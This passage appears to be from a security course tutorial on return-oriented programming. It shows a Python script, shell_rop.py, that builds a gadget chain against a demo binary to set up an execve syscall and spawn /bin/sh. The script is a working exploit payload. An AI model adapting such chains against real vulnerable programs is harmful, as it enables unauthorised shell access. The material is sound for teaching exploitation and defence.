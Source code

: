 -   eax : 0xb
-   ebx : address of the string "/bin/sh\\0"
-   ecx : 0x0
-   edx : 0x0

We can do that.

``` example
user@si485H-base:demo$ cat shell_rop.py
from struct import pack

p = '+'*(0x70) #padding

#Write an /bin to 0x080ea060
p += pack('<I', 0x0806e97a) #pop edx; ret
p += pack('<I', 0x080ea060) #address to write to
p += pack('<I', 0x080bb746) #pop eax; ret
p += "/bin" # bin
p += pack('<I', 0x0808fc26) # mov [edx],eax;pop ebx;ret
p += pack('<I', 0xdeadbeef) #  filler for pop ebx, will be adjust to 0x01 below

#Write an //sh 0x080ea064
p += pack('<I', 0x0806e97a) #pop edx; ret
p += pack('<I', 0x080ea064) #address to write to
p += pack('<I', 0x080bb746) #pop eax; ret
p += "//sh" # bin
p += pack('<I', 0x0808fc26) # mov [edx],eax;pop ebx;ret
p += pack('<I', 0xdeadbeef) #  filler for pop ebx, will be adjust to 0x01 below


#Set eax to 0xb and ebx to 0x080ea060
p += pack('<I', 0x080584a6) # : xor eax, eax ; pop ebx ; ret
p += pack('<I', 0x080ea060) #address of "/bin/sh"
p += pack('<I', 0x0807b466) # inc eax (1)
p += pack('<I', 0x0807b466) # inc eax (2)
p += pack('<I', 0x0807b466) # inc eax (3)
p += pack('<I', 0x0807b466) # inc eax (4)
p += pack('<I', 0x0807b466) # inc eax (5)
p += pack('<I', 0x0807b466) # inc eax (6)
p += pack('<I', 0x0807b466) # inc eax (7)
p += pack('<I', 0x0807b466) # inc eax (8) 
p += pack('<I', 0x0807b466) # inc eax (9)
p += pack('<I', 0x0807b466) # inc eax (a)
p += pack('<I', 0x0807b466) # inc eax (b)

#Set ecx to 0
p += pack('<I', 0x080e4c5d) # : pop ecx ; ret
p += pack('<I', 0xffffffff) # value for ecx
p += pack('<I', 0x080daa6c) # : inc ecx ; ret (ecx now zero)


#Set edx to 0

p += pack('<I', 0x0806e97a)# pop edx ; ret
p += pack('<I', 0xffffffff)# set edx to 0xfffffff
p += pack('<I', 0x0805d0e7)# : inc edx ; ret

#call interupt
p += pack('<I', 0x0806f040) # int 0x80; ret

print p
```
